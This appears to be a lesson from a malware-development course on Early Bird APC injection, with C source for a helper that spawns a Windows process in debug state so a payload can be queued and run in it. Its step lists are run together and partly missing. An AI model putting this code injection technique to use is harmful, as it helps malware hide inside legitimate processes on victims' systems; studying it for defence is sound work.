


Introduction
In the previous module, QueueUserAPC was used to perform local APC injection. In this module, the same API will be used to execute the payload in a remote process. Although the approach will slightly differ, the method used is the same.
By now it should be well understood that APC injection requires either a suspended or an alertable thread to successfully execute the payload. However, it is difficult to come across threads that are in these states, especially ones that are operating under normal user privileges.
The solution for this is to create a suspended process using the CreateProcess WinAPI and use the handle to its suspended thread. The suspended thread meets the criteria to be used in APC injection. This method is known as Early Bird APC Injection.
Early Bird Implementation Logic (1)
The implementation logic of this technique will be as follows:
CREATE_SUSPENDED flag.CreateProcess along with the payload's base address and pass them to QueueUserAPC.ResumeThread WinAPI to execute the payload.Early Bird Implementation Logic (2)
The implementation logic explained in the previous section is straightforward. This section introduces an alternative way of implementing Early Bird APC Injection.
CreateProcess will still be used, but the process creation flag will be changed from CREATE_SUSPENDED to DEBUG_PROCESS. The DEBUG_PROCESS flag will create the new process as a debugged process and make the local process its debugger. When a process is created as a debugged process, a breakpoint will be placed in its entry point. This pauses the process and waits for the debugger (i.e. the malware) to resume execution.
When this occurs, the payload is injected into the target process to be executed using the QueueUserAPC WinAPI. Once the payload is injected and the remote debugged thread is queued to run the payload, the local process can be detached from the target process using the DebugActiveProcessStop WinAPI which stops the remote process from being debugged.
DebugActiveProcessStop requires only one parameter which is the PID of the debugged process that can be fetched from the PROCESS_INFORMATION structure populated by CreateProcess.
Updated Implementation Logic
The updated implementation will be as follows:
DEBUG_PROCESS flag.CreateProcess along with the payload's base address and pass them to QueueUserAPC.DebugActiveProcessStop which resumes its threads and executes the payload.Early Bird APC Injection Function
CreateSuspendedProcess2 is a function that performs Early Bird APC Injection and requires 4 arguments:
lpProcessName - The name of the process to create.dwProcessId - A pointer to a DWORD which will receive the newly created process's PID.hProcess - Pointer to a HANDLE that will receive the newly created process's handle.hThread - Pointer to a HANDLE that will receive the newly created process's thread.BOOL CreateSuspendedProcess2(LPCSTR lpProcessName, DWORD* dwProcessId, HANDLE* hProcess, HANDLE* hThread) {
CHAR lpPath [MAX_PATH * 2];
CHAR WnDr [MAX_PATH];
STARTUPINFO Si = { 0 };
PROCESS_INFORMATION Pi = { 0 };
// Cleaning the structs by setting the element values to 0
RtlSecureZeroMemory(&Si, sizeof(STARTUPINFO));
RtlSecureZeroMemory(&Pi, sizeof(PROCESS_INFORMATION));
// Setting the size of the structure
Si.cb = sizeof(STARTUPINFO);
// Getting the %WINDIR% environment variable path (That is generally 'C:\Windows')
if (!GetEnvironmentVariableA("WINDIR", WnDr, MAX_PATH)) {
printf("[!] GetEnvironmentVariableA Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Creating the target process path
sprintf(lpPath, "%s\\System32\\%s", WnDr, lpProcessName);
printf("\n\t[i] Running : \"%s\" ... ", lpPath);
// Creating the process
if (!CreateProcessA(
NULL,
lpPath,
NULL,
NULL,
FALSE,
DEBUG_PROCESS, // Instead of CREATE_SUSPENDED
NULL,
NULL,
&Si,
&Pi)) {
printf("[!] CreateProcessA Failed with Error : %d \n", GetLastError());
return FALSE;
}
printf("[+] DONE \n");
// Filling up the OUTPUT parameter with CreateProcessA's output
*dwProcessId = Pi.dwProcessId;
*hProcess = Pi.hProcess;
*hThread = Pi.hThread;
// Doing a check to verify we got everything we need
if (*dwProcessId != NULL && *hProcess != NULL && *hThread != NULL)
return TRUE;
return FALSE;
}Demo
The image below shows the newly created target process in a debug state. A debugged process is highlighted in purple in Process Hacker.

Next, the payload is written to the target process.

Finally, the payload is executed.
